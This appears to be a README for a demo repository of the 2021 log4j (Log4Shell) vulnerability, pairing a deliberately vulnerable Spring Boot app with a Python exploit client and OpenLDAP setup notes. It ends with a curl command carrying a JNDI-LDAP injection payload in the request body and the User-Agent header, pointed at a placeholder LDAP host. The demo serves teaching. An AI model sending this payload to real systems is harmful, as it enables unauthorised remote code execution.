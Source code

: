 This repository contains a demo of the log4j vulnerability that got large attention in december 2021.

One part of the code is the Spring Boot application. This application is based on an older version of Spring Boot and an older version of log4j.
The other part of the code is a simple client written in Python. This client can be used to make REST calls to exploit the vulnerability.
The third part of the demo is not included in this repository

Building and running the Spring Boot application locally:
Simply run `mvn clean install` and start it then either in IntelliJ or by running `java -jar target/<name>.jar`
Some notes regarding this repo:

Spring Boot app (vulnerable)


ldap notes
openldap
how to install openldap

how to configure openldap

how to start openldap
sudo /usr/libexec/slapd -d3

ldapsearch -H ldap://localhost:389/test -x


curl command
curl -v -X POST http://localhost:8080/post -d '${jndi:ldap://my-domain:389/localhost}' -H 'User-Agent: ${jndi:ldap://localhost:389}'
